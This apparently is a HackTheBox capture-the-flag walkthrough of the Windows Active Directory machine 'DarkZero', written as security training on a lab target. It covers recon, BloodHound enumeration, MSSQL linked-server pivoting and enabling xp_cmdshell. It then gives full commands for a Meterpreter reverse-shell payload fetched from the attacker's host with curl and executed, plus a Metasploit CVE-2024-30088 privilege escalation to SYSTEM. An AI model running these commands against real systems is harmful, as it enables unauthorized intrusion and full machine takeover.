Writeup by @Certifa 🗓️ HTB Machine: DarkZero • 🧠 Difficulty: Hard • 🪟 Windows
🧠 HackTheBox - DarkZero Walkthrough¶

📚 Table of Contents¶
- 🧠 HackTheBox - DarkZero Walkthrough
- 📚 Table of Contents
- 🔎 Overview
- 📖 About
- ⚡ TL;DR
- 🖥️ SETUP / NOTES
- 🚀 RECON
- 🔍 ENUMERATION
- 💥 EXPLOIT
- 🛡️ PRIVILEGE ESCALATION
- 📎 Final thoughts
- 📘 LESSONS LEARNED
- 📚 REFERENCES
🔎 Overview¶
Machine: DarkZero
Difficulty: Hard
OS: Windows
Points: 40
Status: Active
📖 About¶
This walkthrough covers the HackTheBox machine ‘DarkZero’, a Windows Active Directory environment. The box is notable for its focus on unintended attack paths and challenges you to deeply understand Kerberos, MS SQL, and advanced privilege escalation. The approach here is methodical, explaining each major step and rationale.
⚡ TL;DR¶
Initial access via HTB-provided credentials for john.w / RFulUtONCOL!
Identified two domains: darkzero.htb & darkzero.ext
MSSQL server access enables pivoting to DC02.darkzero.ext
Enabled xp_cmdshell for command execution and established a Meterpreter reverse shell
Privilege escalation using winPEAS; identified vulnerable kernel32.dll (CVE-2024-30088)
Exploited the kernel bug for SYSTEM privileges; dumped Administrator creds and used Golden Ticket techniques to obtain root.txt
🖥️ SETUP / NOTES¶
Credentials: john.w / RFulUtONCOL!
Useful tools: nmap, bloodhound-python, crackmapexec, impacket-mssqlclient, msfvenom, winPEAS
MSSQL authentication requires Windows mode (-windows-auth) and domain credentials
Time synchronization is crucial: sudo ntpdate
Reverse shell and tool upload via Python HTTP server
Local privilege escalation exploitation requires an existing Meterpreter session
🚀 RECON¶
Starting off, HackTheBox already gave us the user:pass john.w / RFulUtONCOL!, so let's save that somehwere.
Now, let's run a nmap scan.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-05 12:21 UTC
Nmap scan report for 10.129.13.116
Host is up (0.013s latency).
PORT STATE SERVICE VERSION
🟢53/tcp open domain Simple DNS Plus[0m
🟢88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-05 19:21:19Z)[0m
🟢135/tcp open msrpc Microsoft Windows RPC[0m
🟢139/tcp open netbios-ssn Microsoft Windows netbios-ssn[0m
🟢389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)[0m
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after: 2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢445/tcp open microsoft-ds?[0m
🟢464/tcp open kpasswd5?[0m
🟢593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0[0m
🟢636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)[0m
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after: 2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢1433/tcp open ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RC0+[0m
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2025-10-05T19:22:55+00:00; +7h00m00s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-05T18:33:52
|_Not valid after: 2055-10-05T18:33:52
🟢2179/tcp open vmrdp?[0m
🟢3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)[0m
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after: 2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)[0m
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after: 2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)[0m
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
🟢9389/tcp open mc-nmf .NET Message Framing[0m
🟢49664/tcp open msrpc Microsoft Windows RPC[0m
🟢49667/tcp open msrpc Microsoft Windows RPC[0m
🟢49670/tcp open msrpc Microsoft Windows RPC[0m
🟢49671/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0[0m
🟢49891/tcp open msrpc Microsoft Windows RPC[0m
🟢49921/tcp open msrpc Microsoft Windows RPC[0m
🟢49970/tcp open msrpc Microsoft Windows RPC[0m
🟢61936/tcp open msrpc Microsoft Windows RPC[0m
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time:
| date: 2025-10-05T19:22:18
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.34 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-05 12:22 UTC
Nmap scan report for 10.129.13.116
Host is up (0.015s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT STATE SERVICE
🟢53/udp open domain
🟢88/udp open kerberos-sec
🟢123/udp open ntp
Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
This scan shows us some crucial information, the domain names darkzero.htb and DC01.darkzero.htb and that it is a windows server with a open port 1433 being mssql. mssql stands for Microsoft Sql and that is good to know.
Key findings:
- Multiple AD-related services (Kerberos, ldap, SMB, etc.)
- Domain: darkzero.htb (DC01.darkzero.htb)
- MSSQL on port 1433—a great target for lateral movement
🔍 ENUMERATION¶
With the information we have we can check some basic things first. We can run tools like crackmapexec, run bloodhound and many more.
I checked for accessible shares with crackmapexec:
crackmapexec smb 10.129.110.78 -u john.w -p 'RFulUtONCOL!' --shares

Hmm, it found nothing interesting, just the generic shares.
Let's go to our other tool bloodhound. What BloodHound-python does is it quickly maps Active Directory relationships to reveal hidden attack paths and privilege escalation opportunities.
Let's collected AD data with:
bloodhound-python -u 'john.w' -p 'RFulUtONCOL!' -d darkzero.htb -ns 10.129.110.78 -c All

We see a couple of things coming by, first we see KRB_AP_ERR_SKEW(Clock skew too great). Although we have finished it succesfully, let's sync our time with the host because that error indicates a time difference.
sudo ntpdate 10.129.110.78
now when we ls in our directory, we see a bunch of .json files. These we use to upload into Bloodhound.

For the server side I use neo4j. So let's run that firts with sudo neo4j start.

Now that has been set up, we can run bloodhound by typing it directly into the terminal. You will be greeted with a login screen.

When logged in, click the 3rd option to import the json.

Sadly enough we don't find alot of info that we hoped to find. But whe have found one clue and that is a different domain, darkzero.ext

With all the information we have now we know a couple of things, john.w does not have acces to any shares, there is a .ext domain and what we haven't digged into yet is the mssql being open.
That's our next step. impacket is usefull for alot of things, it also helps us to possibly login to the mssql seerver. Let's test it out by running.
impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!@10.129.110.78' -windows-auth

We have succesfully logged into the mssql server as john.w! the querys for mssql are a little different then what we are used to. Same language, different accent as we may say.
After a bit of guessing work and knowing that name is one of the most common names for a column with names, we dig around.
Not being too familiar with mssql, I straight up fire away select commands to see if I can grab something usefull. Eventually I struck something, a server that ends with ext.
SELECT name FROM sys.servers

Running help gives us the next clue. It shows us the commands that we can perform. We see that we can link to another server using use_link.
use_link "DC02.darkzero.ext"

Now we hopped on DC02. Enumerating dc02 we found nothing very usefull. Nothing crazy that we can use, but looking back at the help menu we see that we can use cmd using the xp_cmdshell command. Using this command we can directly execute cmd and even perform something like a reverse shell into the host of the server.
💥 EXPLOIT¶
We know enough information to try to create a reverse shell with msfvenom and send it over to the host as dc02 with as listener being on msfconsole. The shell will be generated as a executable .exe so we can run it from dc02 with xp_cmdshell so it will be triggerd.
We will generate our .exe through msfvenom. I chose lhost to be tun0 so it will always be set to my ip, and lport to 4444 but you can always change it to your prefered port.
Generated a Meterpreter payload:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o meterp_x64_tcp.exe
with the .exe being generated, set up a python http server where the file is stored! If you set it up where the file isn't reachable we can not curl it into the mssql.
Running python3 -m http.server 8000 into our terminal creates us a amazing way to store the .exe to the mssql.
curling our file into mssql and directly storing it we use this command.
xp_cmdshell curl 10.10.14.138:8000/meterp_x64_tcp.exe -o C:\Windows\Temp\meterp_x64_tcp.exe

Hmm, we got an error, SQL blocked access to sys.xp_cmdshell. Luckily, we can get around this and gain acces to xp_cmdshell with just a few commands.
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

We have successfully send meterp_x64_tcp.exe over to C:\Windows\Temp. That leaves us for one step. Get the listener running.
Open up your msfconsole.
And type in order.
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444

Last thing to do is type run. Now that the reverse TCP handler is running, we will switch over to the mssql and make sure we execute the .exe to gain connection.
EXEC xp_cmdshell 'C:\Windows\Temp\meterp_x64_tcp.exe';

Now we have meterpreter running we can use the shell command to go in as a shell, and type exit to go back to meterpreter.
typing getuid gets us the user id, and that came back with Server username: darkzero-ext\svc_sql.
checking our privileges with whoami /priv doesnt make me excited.

Normally, we can go to Users and go to Desktop to get user.txt but it's not there. We probably need to elevate our privileges to go to user because we are using the svc_sql account to browse around.
We know that we can export files etc to the server, so the best thing to do now to enumerate the server further is to export winPEAS to the server.
Making it ourselves easier we will use meterpreter to upload the .exe to the server!
So, exit back if you are in as shell and type
cd C:\Users\svc_sql\AppData\local\temp
upload <pwd/winPEASx64.exe>
Going to the destined folder is easier to upload to. We know by getuid that we are svc_sql so why not dump our .exe there.

Now we have that, let's go bet as shell and type dir to check if it is really in the temp folder of svc_sql.

We see that we have winPEASx64! You run winpeas by simply typing its .exe name, winPEASx64.exe

winPEAS does take a while, so let it run and it will be done shortly.
If you don't know where to look for while using winPEAS, don't worry. winPEAS has their own legend that makes it easier to navigate.

Focus on the red text that comes by.
After doing alot of reading, something catches my eye.
kernel32

Using google to find more about kernel32 we find this site: https://attackerkb.com/topics/y8MOqV0WPr/cve-2024-30088
Exploitability - High, we will try to use this to elevate further to get user.txt.
When you are still as shell, exit back to meterpreter and type background. The session is still running but it is running in the background as we try to exploit kernel32 with the found cve-2024-30088.
When backed all the way out type:
use exploit/windows/local/cve_2024_30088_authz_basep To set the CVE
set LHOST tun0
set LPORT 4444
show sessions To see what session Id our background is running as.
set session <Id>
run

If the session dies or anything goes wrong, re run making the connection, going to background and then using the exploit again.
Let's go to shell and navigate to Users. As we saw before the server only has 2 accounts. svc_sql and Administrator. svc doesnt have the user.txt, and now typing whoami in the terminal in shell we see that we are no longer svc_sql but nt authority\system! Let's go to Administrator and check if user is at Desktop.
